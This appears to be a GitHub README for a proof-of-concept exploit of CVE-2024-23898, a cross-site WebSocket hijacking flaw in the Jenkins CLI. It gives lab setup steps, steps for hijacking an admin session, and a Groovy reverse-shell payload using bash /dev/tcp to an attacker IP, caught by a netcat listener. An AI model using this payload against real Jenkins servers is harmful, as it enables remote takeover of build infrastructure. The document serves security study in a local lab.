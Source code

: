 # Repo Overview: An Exploit Against the Jenkins CLI
 A proof of concept for CVE-2024-23898, a cross-site WebSocket hijacking vulnerability affecting Jenkins versions 2.217-2.441.  
 This exploits targets the Jenkins CLI that can be used to remotely access and issue commands to a Jenkins control server.  Through this exploit a remote attacker can gain access to and establish a persistent back-door to a Jenkins control server if an administrator is tricked into visiting a malicious site while logged-in to the target Jenkins control server.


# Setting Up Jenkins
- Run "docker-compose build && docker-compose up -d"
- Navigate to http://localhost:8080, you will be prompted for an admin password
- Open a shell in the jenkins docker container (NOT THE POSTGRES ONE)
    - "docker exec -it <container_id> bash"
    - cd to directory listeed on the Jenkins page, acquire the password
- Set up a basic admin account (remember the password) and install default plugins 
-Configure anonymous users with basic permissions by going to Manage Jenkins > Security 
	- Set authorization type to "Matrix-based"
	- Allow anonymous users to read "Overall" and "Job"

# Conducting Websocket Hijacking
- Open Firefox, go to Settings > Security & Privacy
    - Set Browser Privacy to custom, toggle Cookies "off" (this makes Firefox allow all cookies through)
- Go to Jenkins, login as the admin, making sure to click "Keep me signed in"
- Lauch evilApp.py, visiting on http://localhost:5000
    - Go to Network and hit refresh
    - Click on the packet with file "ws" and go to Response, you should see that is says "Authenticated as: admin""
        -  You can also check "Cookies" to see the remember-me cookie

# Executing a reverse shell
- In your machine's terminal, start a netcat listener with `nc -l <port_num>` (replace <port_num> with any unused port number)
- You must obtain your computer's IP address as seen by Docker. On Mac you can find this with the command `ipconfig getifaddr en0`
- Assuming your Jenkins server is running, go to `[http://localhost:8080/script](http://localhost:8080/script)`. Log in as the admin account if you have not already.
- Paste and execute this payload into the Groovy script console: `['bash', '-c', 'bash -i >& /dev/tcp/<attacker_ip>/<port_num> 0>&1'].execute()`
- Go back to the terminal with the netcat listener. You should be in the Jenkins server's file system and able to do anything the admin user can.

